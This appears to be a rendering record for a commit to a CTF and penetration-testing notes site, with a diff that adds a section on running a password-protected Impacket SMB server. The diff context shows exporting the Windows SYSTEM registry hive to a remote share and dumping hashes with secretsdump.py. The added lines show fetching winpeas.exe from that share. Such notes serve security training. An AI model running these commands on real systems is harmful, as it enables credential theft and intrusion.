

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/pentest/networks/servers.md, in a window 1280 px wide and 900 px high, scrolled down 1153 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 1656 px from its top, so only the background shows below that.

Commit message:
add password protected smb server

````diff
--- a/docs/pentest/networks/servers.md
+++ b/docs/pentest/networks/servers.md
@@ -74,3 +74,23 @@ C:\ > reg.exe save HKLM\SYSTEM \\10.9.52.138\tmpshare\system
 $ secretsdump.py -sam sam -system system LOCAL
 [...]
 ```
+
+## SMB Server (password protected)
+
+Run the server :
+
+```
+sudo smbserver.py tmpshare . -smb2support -username toto -password toto
+Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
+
+[...]
+```
+
+Use the server :
+
+```
+PS C:\users\public> net use '\\10.10.15.176\tmpshare' /user:toto toto
+The command completed successfully.
+
+PS C:\users\public> copy '\\10.10.15.176\tmpshare\winpeas.exe' .
+```
````
